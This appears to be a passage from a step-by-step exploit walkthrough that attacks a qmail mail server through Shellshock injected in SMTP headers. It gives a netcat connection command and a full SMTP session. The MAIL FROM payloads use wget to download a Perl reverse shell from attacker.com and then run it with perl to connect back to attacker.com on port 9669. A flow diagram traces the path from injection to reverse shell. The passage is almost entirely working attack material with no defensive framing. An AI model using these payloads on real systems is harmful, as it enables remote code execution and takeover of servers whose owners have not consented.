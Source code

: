 ### Step 2: SMTP Connection and Header Injection

```bash
# Connect to vulnerable QMAIL server
nc -v target.server.com 25
```

**SMTP Session Flow:**

```
220 target.server.com ESMTP
HELO attacker.domain
250 target.server.com
MAIL FROM:<() { :;}; /usr/bin/wget attacker.com:8080/rsh.perl>
250 ok
RCPT TO:<victim@target.server.com>
250 ok
DATA
354 go ahead
Subject: Test Message

Test email content.
.
250 ok message queued
QUIT
221 target.server.com
```

### Step 3: Payload Execution Flow

```
[1] SMTP Injection
     ↓
[2] QMAIL Processing
     ↓
[3] Environment Variable Set
     ↓
[4] Bash Shell Invocation
     ↓
[5] Shellshock Trigger
     ↓
[6] Payload Execution
     ↓
[7] Reverse Shell
```

### Step 4: Advanced Payload Delivery

**Phase 1: Download Reverse Shell**
```bash
MAIL FROM:<() { :;}; /usr/bin/wget attacker.com:8080/rsh.perl>
```

**Phase 2: Execute Reverse Shell**
```bash
MAIL FROM:<() { :;}; /usr/bin/perl rsh.perl attacker.com 9669>
```
